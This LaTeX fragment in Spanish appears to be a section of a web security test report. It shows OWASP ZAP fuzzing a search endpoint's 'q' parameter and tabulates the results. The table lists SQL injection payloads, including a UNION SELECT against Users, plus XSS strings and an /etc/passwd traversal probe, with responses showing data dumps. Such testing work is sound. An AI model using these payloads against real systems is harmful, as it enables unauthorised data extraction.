 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection{Testeo de Inyecciones Automatizadas con ZAP Fuzzer (\texttt{jbrofuzz})}
Se utilizó la funcionalidad \textbf{Fuzzer} de OWASP ZAP sobre el parámetro \texttt{q} del endpoint de búsqueda (\texttt{/rest/products/search?q=}), cargando el catálogo de payloads predefinidos de inyección SQL de \textbf{\texttt{jbrofuzz}}. 

El Fuzzer ejecutó una batería de 24 cadenas representativas de inyección y sondeo poliglotas. En la Tabla~\ref{tab:fuzzer_results} y en la Figura~\ref{fig:zap_fuzzer_chart} se presentan los resultados obtenidos. Las peticiones marcadas con estado \textbf{"Reflected / Found"} o con errores de sintaxis de base de datos (\texttt{500 SQLITE\_ERROR}) permitieron confirmar la presencia de inyecciones SQL ciegas y basadas en errores.

\begin{table}[h!]
\centering
\footnotesize
\caption{Muestra de Resultados de Ejecución de ZAP Fuzzer (\texttt{jbrofuzz SQL Injection})}
\label{tab:fuzzer_results}
\begin{tabularx}{\textwidth}{c>{\raggedright\arraybackslash}Xccc>{\raggedright\arraybackslash}p{4.2cm}}
\toprule
\textbf{ID} & \textbf{Payload Inyectado en Parámetro \texttt{q}} & \textbf{HTTP Status} & \textbf{Tamaño} & \textbf{RTT} & \textbf{Estado / Diagnóstico ZAP} \\
\midrule
01 & \texttt{'} & 200 OK & 30 B & 19 ms & Normal (Consulta nula) \\
05 & \texttt{,} & 200 OK & 5.644 B & 20 ms & \textbf{Reflected / Found} \\
08 & \texttt{' OR '1'='1} & 200 OK & 26.963 B & 23 ms & \textbf{Found (Exfiltración completa)} \\
09 & \texttt{' OR '1'='1' --} & 500 Error & 319 B & 21 ms & \textbf{Vulnerable (SQLITE\_ERROR)} \\
11 & \texttt{admin' --} & 500 Error & 307 B & 20 ms & \textbf{Vulnerable (Error sintaxis)} \\
12 & \texttt{')) OR 1=1--} & 200 OK & 34.158 B & 19 ms & \textbf{Found (Catálogo volcado)} \\
14 & \texttt{')) UNION SELECT ... FROM Users--} & 200 OK & 8.420 B & 18 ms & \textbf{Vulnerable (UNION Data Dump)} \\
20 & \texttt{<script>alert('XSS')</script>} & 500 Error & 367 B & 17 ms & Vulnerable (Inyección reflejada) \\
21 & \texttt{<iframe src="javascript:alert(1)">} & 200 OK & 30 B & 16 ms & Reflejado en cliente DOM \\
22 & \texttt{../../../../etc/passwd} & 200 OK & 30 B & 20 ms & Normal (Filtrado estático) \\
\bottomrule
\end{tabularx}
\end{table}
\end{document}
